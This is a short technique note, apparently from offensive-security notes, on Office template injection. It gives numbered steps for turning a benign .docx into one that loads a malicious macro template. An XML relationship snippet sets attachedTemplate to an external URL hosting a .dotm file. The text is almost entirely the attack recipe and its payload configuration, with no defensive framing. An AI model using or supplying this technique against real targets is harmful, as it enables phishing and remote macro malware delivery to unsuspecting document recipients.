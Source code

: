 # Office Template Injection

***

1. A malicious macro is saved in a Word template .dotm file

2. Benign .docx file is created based on one of the default MS Word Document templates

3. Document from step 2 is saved as .docx

4. Document from step 3 is renamed to .zip

5. Document from step 4 gets unzipped

6. .\word\_rels\settings.xml.rels contains a reference to the template file. That reference gets replaced with a refernce to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
   
   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
   <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://nooranetred.com/3.dotm" TargetMode="External"/></Relationships>
   ```